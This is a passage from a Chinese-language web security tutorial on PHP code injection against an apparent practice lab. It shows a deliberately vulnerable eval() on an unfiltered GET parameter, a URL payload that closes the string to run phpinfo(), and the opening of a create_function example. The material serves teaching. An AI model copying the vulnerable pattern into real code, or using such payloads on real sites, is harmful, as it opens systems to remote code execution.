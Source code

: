 ### 2.1.5 Code injection Example 1

未做过滤，可以进行闭合触发漏洞。

```plain
<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>
```

[http://192.168.245.131/codeexec/example1.php?name=%22;phpinfo();//](http://192.168.245.131/codeexec/example1.php?name=%22;phpinfo();//)  
[![](assets/1704850598-0b4322e9a5977b79285317648abbba3a.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/zLxDoPz6tjQAhW9w.png)

### 2.1.6 Code injection Example 2

create\_function 类似于 function test($args){方法代码部分}，然后通过闭合

```plain
<?php
class User{
  public $id, $name, $age;
  function __construct($id, $name, $age){
    $this->name= $name;
    $this->age = $age;
    $this->id = $id;
  }   
}
  require_once('../header.php');
  require_once('../sqli/db.php');
   $sql = "SELECT * FROM users ";

   $order = $_GET["order"];
   $result = mysql_query($sql);
```